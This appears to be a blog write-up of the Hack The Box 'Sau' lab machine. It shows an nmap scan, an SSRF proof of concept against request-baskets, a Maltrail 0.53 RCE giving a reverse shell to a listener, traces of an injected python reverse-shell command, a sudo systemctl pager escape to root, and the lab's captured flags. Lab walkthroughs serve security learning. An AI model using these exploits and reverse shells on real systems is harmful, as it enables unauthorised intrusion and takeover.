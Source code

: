 ```yaml
---
layout: post
title: Sau HTB - Writeup
categories: [HTB]
tags: [htb,web,htb easy]
img_path: /images/htb/easy/sau/
image:
  path: icon.png
---
```


A retiring linux easy machine, trying to do one a day!

**Machine created by:** [sau123](https://app.hackthebox.com/users/201596)

## Recon

Starting with a nmap scan of the IP, we see 3 open ports.

```
$ sudo nmap 10.10.11.224 --top-ports 1000
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-02 17:22 AEDT
Nmap scan report for 10.10.11.224
Host is up (0.011s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
55555/tcp open     unknown
```

Lets edit our `/etc/hosts` and add a new entry.

```
10.10.11.224 sau.htb
```

Trying to load [sau.htb:80](http://sau.htb:80) failed, so I take a look at port 55555 and load [sau.htb:55555](http://sau.htb:55555) and see a `request-baskets` instance.

![request-baskets Instance](request-baskets.png)

## Exploitation

I look for any CVEs related to `request-baskets` and find a [PoC for CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163) which is an SSRF vulnerability. We can maybe access that port 80 service we can't seem to reach.

```
$ ./CVE-2023-27163.sh http://sau.htb:55555/ http://localhost:80/
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "bameet" proxy basket...
> Basket created!
> Accessing http://sau.htb:55555/bameet now makes the server request to http://localhost:80/.
> Authorization: NM2Y9TQKkreZV-x6IjfYLsjs55W-g6JJ3YlDeB6b1kSc
```

Visiting the request bin shows us a broken instance of Mailtrail (v0.53).

![Mailtrail Instance](mailtrail.png)

## Initial Access & User Flag

Looking online there is a vulnerability for Mailtrail, and find a [PoC](https://packetstormsecurity.com/files/174129/Maltrail-0.53-Remote-Code-Execution.html) which is an RCE.

I set up a reverse shell listener...

```
$ pwncat-cs
[16:41:49] Welcome to pwncat 🐈!
(local) pwncat$ listen --host -m linux 10.10.***.*** 4444
[16:41:53] new listener created for 10.10.***.***:4444
(local) pwncat$
```

and execute the PoC...

```
$ python3 MailTrailv053.py 10.10.***.*** 4444 http://sau.htb:55555/bameet
Running exploit on http://sau.htb:55555/bameet/login
```

And I see a shell!

```
[18:09:07] 10.10.11.224:54314: upgrading from /usr/bin/dash to /usr/bin/bash
           10.10.11.224:54314: registered new host w/ db 
           listener: 10.10.16.9:4444: linux session from 10.10.11.224:54314
           established
```

After changing to the shell I notice i'm the user `puma`, I then navigate to the user directory of `puma`:
```
(remote) puma@sau:/opt/maltrail$ cd /home/puma
(remote) puma@sau:/home/puma$ cat user.txt
70e0259608b4b058ee6e83c02f83554b
```

There's the user flag <mark>70e0259608b4b058ee6e83c02f83554b</mark>!

## Root Flag

Checking `sudo -l` gives the following:

```
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Looking at [GTFOBins entry for systemctl](https://gtfobins.github.io/gtfobins/systemctl/#sudo) under the Sudo permission, there are some exploits.

The most promising one is option (c) due to our limited sudoers line.

I attempt the exploit:

```
(remote) puma@sau:/home/puma$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset: enabled)
     Active: active (running) since Mon 2024-01-01 10:14:15 UTC; 21h ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 893 (python3)
      Tasks: 75 (limit: 4662)
     Memory: 384.2M
     CGroup: /system.slice/trail.service
             ├─  893 /usr/bin/python3 server.py
             ├─ 2476 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed password for ;`echo ">
             ├─ 2478 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed password for ;`echo ">
             ├─ 2486 sh
             ├─ 2487 python3 -c import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STRE>
             ├─ 2488 /bin/sh
             ├─ 2510 sudo /usr/bin/systemctl status trail.service
             ├─ 2512 /usr/bin/systemctl status trail.service
             ├─ 2513 pager
             ├─ 2515 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed password for ;`echo ">
             ├─ 2516 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed password for ;`echo ">
             ├─ 2519 sh
             ├─ 2520 python3 -c import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STRE>
             ├─ 2521 /bin/sh
!sh
# whoami
root
# cd /root/root.txt
9d5259dd1993658152d9863c78564c1e
```

And there's the root flag: <mark>9d5259dd1993658152d9863c78564c1e</mark>!

![Success](submitted.png)

## Thanks for reading!
Feel free to give me feedback or follow me on [Twitter](https://twitter.com/sealldev).